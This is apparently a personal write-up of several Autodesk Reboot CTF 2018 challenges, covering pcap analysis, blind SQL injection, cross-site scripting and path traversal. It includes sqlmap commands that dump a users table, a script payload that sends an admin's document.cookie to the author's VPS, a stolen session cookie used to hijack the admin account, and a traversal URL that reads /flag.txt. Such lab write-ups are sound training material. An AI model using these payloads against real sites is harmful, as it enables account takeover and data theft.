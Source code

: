 ## Autodesk Reboot CTF 2018

This CTF is more about resverse-engineering which i'm not good at. But these challenges are interesting.

# All Me to Introduce Myself

The challenge is as easy as ... compiling the python code to get the flag:

> python3 -c "for i in [102, 108, 97, 103, 123, 119, 101, 108, 99, 111, 109, 101, 95, 112, 97, 114, 116, 105, 99, 105, 112, 97, 110, 116, 115, 33, 125]: print(chr(i), end='')"

![](img/1.png)

# uhhMAZEin

We are provided with a pcap file and a nc: `nc challenges.ctfd.io 30035`

**Recon:** When I see PCAP, I also see package-sniffing and Wireshark is a useful toy for such. By nc-ing to the above, I'm asked to enter the list of sequences (LEFT, RIGHT, STRAIGHT). It may be obtained from the PCAP file.

Upon opening the file using Wireshark, we can see a lot of traffic on TCP. To filter out garbage, I use this filter: `tcp and not tcp.len==0` to remove the package with no data and show only the package with response.

![](img/2-filter.png)

Now we need to show all the package's content in one view. To do that, right click on any package and select `Streaming > TCP Stream`. 

![](img/2-stream.png)

Now we got all the message. You can type them manually but since i'm I save the response to package.txt and pipe the grep to the nc above:
`(grep 'LEFT, RIGHT, or STRAIGHT:' package.txt | sed 's/^.*: //') | nc challenges.ctfd.io 30035`

We get our flag: 
> flag{like_finding_a_needle_in_a_haystack_in_a_maze}

# Bye-Byte

boo boo

# Blind

We are provided with an URL: `http://68.183.148.46:8001`

**Recon:** Upon visiting website, I see there is a simple signin form. I check with simple query `boo' #` for username and could sign in. But then there is a message saying that the flag is the password. I'm thinking of [SQL Blind Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/). I need to do that anyway but i'm lazy and sqlmap is a useful tool for this occasion.

First, I run sqlmap with simple command:
> sqlmap -u "http://68.183.148.46:8001/login.php" --data "username=u&password=p" --method POST --dbs

We got some useful information:

![](img/3-injection.png)

You can play around with sqlmap to get all the databases, tables, etc. It takes a while so here is the final query to get the flag:
> sqlmap -u "http://68.183.148.46:8001/login.php" --data "username=u&password=p"  --method POST -D webapp -T users --dump

ANd here is our flag:
> flag{h4ck3r5_cr4ck3r5_4nd_5ql_1nj3c710n}

# Alchemy

I have no idea about Erl Elixir

# Notesy

We rae rovied with an URL: `http://68.183.148.46:8181/`

**Recon** Upon visiting the webiste, I can see it's a form and after submitting I can see the actual response displayed back to my screen. There is an `Admin` section which I cannot signin. Wait, see the note "We review every submission to ensure that our services aren't being utilized for nefarious purposes", meant that the admin will check the note. It's very basic scenario that we post something and admin reviews it, by reviewing it, his browser will serve whatever content that we embedded in our post. It makes me think of [Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)). 

FYI, when visiting /admin I can see `Powered by Dancer2.` and I was trying to look for an exploit for Dancer2 but found none. So I moved on.

To try out, I check if either field is vulnerable for XXS by entering this in both Title and Description:
> alert('xss');

Boom! Both are injectable. Now I need to get the admin's previllege in order to access the admin's section. Now while visiting the page, I also see my cookie being logged:
> cookie=PHPSESSID=rc06ktvg7d8cl5sknf9gddji92 

To draft the attack, I will setup a host page to log the cookie of the admin, and then spoof my cookie with the one that I stole from admin. Because as mentioned, admins always check the posts so we can easiler trick him to open a page that will log his `document.cookie`.

I spin up a new LAMP stack from DigitalOcean (free and quick) and then start a Simple HTTP Server which serves 2 files: `cookie.php` and `log.txt` which contains all the logs. Next time is to write a post on the challenge which contains malicious code. In the title I had:
>  <script>document.location="http://my_vps_ip/cookie.php?c=" + document.cookie</script>

Now what happens is that when an admin visit my post, his browser will execute the above javascript and make him to visit the my cookie.php with his cookie in the url. Now in the cookie, it will read the params `?c=` and log it into `log.txt` file on my VPS. After a while, I can see the admin info as below:

```
IP: 68.183.148.46 | PORT: 22721 | HOST:  |  Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/72.0.3626.121 Safari/537.36 | METHOD:  | REF: http://localhost:5000/n/3317102d7083ae7ce6d2450e40a5a59e7a3a9c1898aebfa688e8108c29f729af |  DATE: Wednesday 20th 2019f March 2019 07:15:54 AM | COOKIE:  cookie=admin=ZGM2oYVOQ8Q3I8c2cWy47thkvaVja6PTuQLa76l1HrPdTb0btxAACrEiIJIaUhLqXVVRX9Kn7vM7 
```

Now by setting my cookie in Burp Suite or Chrome Console Dev/Extension to this:
> cookie=admin=ZGM2oYVOQ8Q3I8c2cWy47thkvaVja6PTuQLa76l1HrPdTb0btxAACrEiIJIaUhLqXVVRX9Kn7vM7 

I could access the Admin page and get the flag.
> I forget the flag


# Pickleshop

We are provided with an URL: `http://68.183.148.46:9999/`

**Recon:** Upon visiting the website, i can see a lot of images. Checking the image's url I can see that it's being served from a physical file on the server. I'm thinking of [Directory Traversal and File Inclusion](https://www.owasp.org/index.php/Testing_Directory_traversal/file_include_(OTG-AUTHZ-001)).
> http://68.183.148.46:9999/pickle?pickle=STMxMzk5NTQyNDkKLg==&img=large_9c6692cf-cb54-41cc-8f65-9eb8d343290f-1.jpg

From the note, our flag is located at `/flag.txt` so I tried to change the directory to point to that file:
> http://68.183.148.46:9999/pickle?pickle=STMxMzk5NTQyNDkKLg==&img=/flag.txt

Unfortunately, it does not work, but instead reveals this useful information:

![](img/pickle.png)

> File "/app/app.py", line 17, in get_pickle return send_file("static/" + img) File "/usr/local/lib/python2.7/site-packages/flask/helpers.py", line 549, in send_file file = open(filename, 'rb') IOError: [Errno 2] No such file or directory: u'/app/static//flag.txt'

I can see that it's being served under `/app/static/` so I need to travese up 2 level:

> http://68.183.148.46:9999/pickle?pickle=STMxMzk5NTQyNDkKLg==&img=../../flag.txt

And there is our flag:

> flag{BOOM_BIG_REVEAL_IM_A_PICKLE}

# apartment

# xml_is_hard

# 64 caneries